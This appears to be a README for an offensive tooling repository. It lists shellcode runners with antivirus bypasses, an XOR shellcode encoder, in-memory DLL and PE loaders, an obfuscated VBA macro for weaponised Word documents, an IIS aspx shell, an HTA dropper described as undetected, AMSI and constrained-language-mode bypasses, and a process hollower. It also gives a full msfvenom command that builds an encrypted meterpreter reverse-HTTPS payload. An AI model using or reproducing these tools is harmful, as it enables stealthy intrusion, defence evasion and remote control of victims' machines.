

## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for PE obfuscation.
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```

## SCORE 
<p align="center">
  
</p>
